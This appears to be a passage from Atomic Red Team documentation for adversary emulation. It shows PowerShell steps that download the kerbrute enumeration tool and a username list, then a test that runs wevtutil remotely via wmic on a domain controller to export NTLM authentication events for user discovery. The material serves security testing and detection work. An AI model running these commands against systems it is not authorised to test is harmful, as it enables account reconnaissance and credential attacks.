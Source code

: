 


#### Dependencies:  Run with `powershell`!
##### Description: kerbrute.exe must exist in PathToAtomicsFolder\..\ExternalPayloads.
##### Check Prereq Commands:
```powershell
if (test-path "PathToAtomicsFolder\..\ExternalPayloads\kerbrute.exe"){exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction ignore -Force | Out-Null
invoke-webrequest "https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_windows_386.exe" -outfile "PathToAtomicsFolder\..\ExternalPayloads\kerbrute.exe"
```
##### Description: username text file must exist in PathToAtomicsFolder\..\ExternalPayloads.
##### Check Prereq Commands:
```powershell
if (test-path "PathToAtomicsFolder\..\ExternalPayloads\username.txt"){exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction ignore -Force | Out-Null
invoke-webrequest "https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1087.002/src/username.txt?raw=true" -outfile "PathToAtomicsFolder\..\ExternalPayloads\username.txt"
```




<br/>
<br/>

## Atomic Test #17 - Wevtutil - Discover NTLM Users Remote
This test discovers users who have authenticated against a Domain Controller via NTLM. 
This is done remotely via wmic and captures the event code 4776 from the domain controller and stores the ouput in C:\temp. [Reference](https://www.reliaquest.com/blog/socgholish-fakeupdates/)

**Supported Platforms:** Windows


**auto_generated_guid:** b8a563d4-a836-4993-a74e-0a19b8481bfe






#### Attack Commands: Run with `powershell`! 


```powershell
$target = $env:LOGONSERVER
$target = $target.Trim("\\")
$IpAddress = [System.Net.Dns]::GetHostAddresses($target) | select IPAddressToString -ExpandProperty IPAddressToString
wmic.exe /node:$IpAddress process call create 'wevtutil epl Security C:\\ntlmusers.evtx /q:\"Event[System[(EventID=4776)]]"'
```

